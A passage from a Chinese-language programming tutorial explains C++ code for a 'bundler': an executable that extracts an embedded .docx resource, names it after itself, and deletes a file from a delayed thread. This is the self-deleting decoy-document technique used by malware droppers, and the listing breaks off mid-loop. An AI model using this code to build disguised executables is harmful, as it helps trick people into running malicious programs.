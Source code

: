 - 参数列表 `(_In_ LPCSTR lpFileName)`

  参数列表描述了该函数指针指向的函数所接受的参数类型：

  - `_In_` 是一个 SAL（Source Annotation Language）注释，指示参数是输入参数。
  - `LPCSTR` 是一个指向常量字符串的指针，表示该函数接受一个指向常量字符串的指针作为参数。

总的来说定义了一个名为 `wDeleteFileA` 的新类型，这个类型是一个指向具有以下签名的函数的指针：

- 返回类型为 `BOOL`（一个布尔值）。
- 调用约定为 `WINAPI`（Windows API 标准调用约定）。
- 接受一个参数：类型为 `LPCSTR`，即一个指向常量字符串的指针，表示文件名。

---

`Bundled.cpp`

```cpp
#include <iostream>
#include <windows.h>
#include "Bundled.h"

DWORD64 WINAPI threadProc(LPVOID lParam) {

    INT RET = 20000;
    for (size_t i = 0; i < 20000; i++)
    {
        RET = RET - 1;
    }
    //循环一下起延时作用，防止线程创建了文件还没有关系，这样删除就失败了
    wDeleteFileA kDeleteFileA;
    DeleteStruct* DS = (DeleteStruct*)lParam;
    kDeleteFileA = (wDeleteFileA)DS->dwDeleteFile;
    kDeleteFileA(DS->dwDeleteFile_param_1);
    //删除文件
    return RET;
}

int main(int argc, char* argv[])
{
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(101), "docx");
    //得到资源文件HRSRC句柄
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //得到资源文件ResourceGlobal句柄
    DWORD FileSize = SizeofResource(NULL, Resource);
    //得到资源文件的大小
    LPVOID PFILE = LockResource(ResourceGlobal);
    //得到指向资源文件内容的指针
    GetModuleFileNameA(NULL, PathFileName, MAX_PATH);
    //当前进程的路径和名称
    strcpy_s(FileName, strrchr(PathFileName, '\\')+1);
    /*
    strrchr得到第二个参数最后出现的位置
    d:\\xxxxx\\xxxxxx\\xxxx.exe在执行后得到\\xxxx.exe
    所以需要+1把\\去掉
    最后得到了完整的文件名
    用strcpy_s把文件名复制到FileName中
    */
    for (size_t i = 0; i < MAX_PATH; i++)
    {
        if(FileName[i] == '.')
        {
            FileName[i + 1] = 'd';
            FileName[i + 2] = 'o';
```